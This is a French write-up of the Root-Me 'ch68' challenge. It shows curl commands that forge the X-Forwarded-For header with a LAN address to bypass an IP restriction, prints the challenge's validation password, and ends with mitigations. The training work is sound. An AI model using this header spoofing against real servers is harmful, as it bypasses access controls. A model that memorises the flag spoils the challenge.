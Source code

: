 ```yaml
---
titre: "Root-Me – HTTP : Contournement de la restriction IP (ch68)"
platforme: "Root-Me"
categorie: "Web-Server"
difficultée: "Moyen"
score: "10"
---
```


## Objectif
Contourner une restriction IP (accès réservé aux utilisateurs du LAN) en falsifiant l'en-tête HTTP `X-Forwarded-For` afin d'accéder à la page protégée et récupérer la phrase de validation.

## Contexte & Info Gathering
- Cible : `http://challenge01.root-me.org/web-serveur/ch68/`
- Observation initiale : la page affiche "Your IP <ip> do not belong to the LAN." si l'IP n'appartient pas au réseau local.
- IP locale (réglée sur la VM) : `192.168.136.130` (interface `eth0`).

## Commandes & Étapes effectuées
1. Vérification des headers retournés sans header modifié :
curl http://challenge01.root-me.org/web-serveur/ch68/
Test initial avec un IP publique dans X-Forwarded-For (échoue) :
curl -H "X-Forwarded-For:102.178.5.20" http://challenge01.root-me.org/web-serveur/ch68/
Résultat : "Your IP 102.178.5.20 do not belong to the LAN."

Récupération de l'adresse locale de la VM (eth0) :
ifconfig
# ou: ip addr show eth0
# On voit : inet 192.168.136.130
Envoi du header X-Forwarded-For avec l'adresse locale (succès) :
curl -H "X-Forwarded-For:192.168.136.130" http://challenge01.root-me.org/web-serveur/ch68/
Réponse notable :
html
Copier le code
<div>
  Well done, the validation password is: <strong>Ip_$po0Fing</strong>
</div>
Le mot de passe retourné : Ip_$po0Fing.

##Analyse technique 
L'application se base sur la valeur du header X-Forwarded-For (fourni par le client) pour décider si l'IP est dans le LAN.
Le header est falsifiable par l’utilisateur : en le forgeant on peut se faire passer pour une IP interne.
L'application ne vérifie pas si le header provient d'un reverse-proxy de confiance, ni ne s'appuie sur l'adresse source TCP (REMOTE_ADDR).

##Root cause & Vulnérabilité
Confiance excessive dans un header client (X-Forwarded-For) sans validation de la chaîne de proxies ou contrôle des sources.

##Catégorie : Information Trusting / Access Control Bypass.

##Contremesures / Mitigations
Ne pas faire confiance aux headers envoyés par les clients. Faire confiance aux headers X-Forwarded-For seulement si ils sont ajoutés par des proxies internes ou configurez le reverse-proxy pour nettoyer/normaliser ces headers.
Filtrer les accès au niveau réseau (firewall) pour les pages sensibles.
Utiliser PROXY protocol / vérifier la liste des proxies approuvés en front de l’application.

##Leçons apprises
Les headers HTTP peuvent être manipulés ; ils ne doivent pas être utilisés comme mécanisme d'authentification sans validation.
Toujours vérifier la source réelle (REMOTE_ADDR) ou limiter la confiance aux proxies connus.




